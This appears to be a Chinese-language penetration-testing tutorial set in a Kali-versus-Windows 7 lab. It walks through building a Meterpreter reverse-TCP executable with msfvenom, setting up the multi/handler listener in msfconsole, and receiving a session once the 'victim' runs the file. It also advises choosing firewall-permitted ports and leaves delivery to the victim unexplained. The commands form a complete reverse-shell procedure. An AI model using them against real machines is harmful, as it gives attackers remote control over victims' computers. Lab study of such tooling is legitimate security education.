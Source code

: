 ##如何渗透攻击Windows PC
关于这个问题提出三个问题

**1-如何生成Payload?**

**2-如何通过Payload渗透攻击Windows?**

**3-如何开始渗透?**

文章的开头先简单回答这三个问题

**1-**不是所有的人都具备写一个软件的能力，也不是所有的人都会编写Payload，但是还好现在我们有工具可以直接生成Payload

**2-**我们需要通过Victim执行Payload文件来反弹一个TCP连接，HTTP连接，或者HTTPS连接

**3-**这个问题就是用户需要怎么执行Payload，Windows系统中双击运行就可以

##测试环境
攻击者：Kali           IP地址:192.168.43.126

victim：Windows7       IP地址:192.168.43.14
##使用msfvenom生成Payload
我们可以使用msfvenom来生成Payload，这个工具可以很方便的生成我们需要的Payload文件，加上命令不难理解就成了初学者比较好的选择

那我们使用什么命令生成Payload呢？只需要一条命令就可以


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.126 LPORT=4444 -f exe > Windows.exe
```

![msfvenom](ch2/11/msf.png)
###原理介绍

**-p** *参数指的是Payload的类型*

**-LHOST** *参数指定的是本地Kali主机的IP地址，就是将TCP会话返回给谁*

**-LPORT** *参数指定的是返回TCP会话使用的本地端口*

**-f** *参数指定的是生成的文件类型*



还有其他的参数，用的时候讲解，比如**编码的类型**之类的


生成该Payload文件之后，我们需要开启一个监听器，让Victim执行该Payload文件时，我们可以知道

**那怎么知道的呢？**

*因为Victim执行Payload文件时，我们Kali主机会收到一个TCP的连接会话*

**为什么是TCP回话呢？**

*这个会话的类型与我们刚才设置的Payload有关，因为刚才设置的Payload为reverse_tcp，所以但会的是一个TCP会话*

**端口一定要是4444吗？**

*这个端口不一定要是4444，可以根据自己想设置的端口设置，范围为1-65535，但是我们在选择的时候一般会选一些防火墙开放的端口，因为如何你选择了防火墙不开放的端口，就无法返回TCP回话了*

##设置监听器

接下来我们需要让Victim下载该Payload文件，这方法就很多种了，这里不解释


我们使用msfconsole来设置监听器，需要注意的是设置监听器参数的时候需要和生成Payload文件的参数一样，不然不能返回TCP会话
```
use exploit/multi/handle
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.43.126
set LPORT 4444
```
![msfconsole](ch2/11/console.png)

设置完监听器的参数之后，我们使用命令来查看一下监听器的信息
```
show options
```
![options](ch2/11/options.png)

查看完，都设置正确的话，就可以使用命令开启监听器，如果发现那一句没有设置正确就重新设置那个参数
```
exploit
```

![exploit](ch2/11/exploit.png)

现在我们就等待Victim运行该Payload文件

![exe](ch2/11/exe.png)

现在看到屏幕中出现了一个session，说明Victim已经运行了Payload文件
![session](ch2/11/session.png)

我们现在可以使用命令来查看我们可以进行的操作
```
help
```
![comamnd](ch2/11/command.png)

如果帮助到你了，希望可以得到你的打赏，谢谢[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")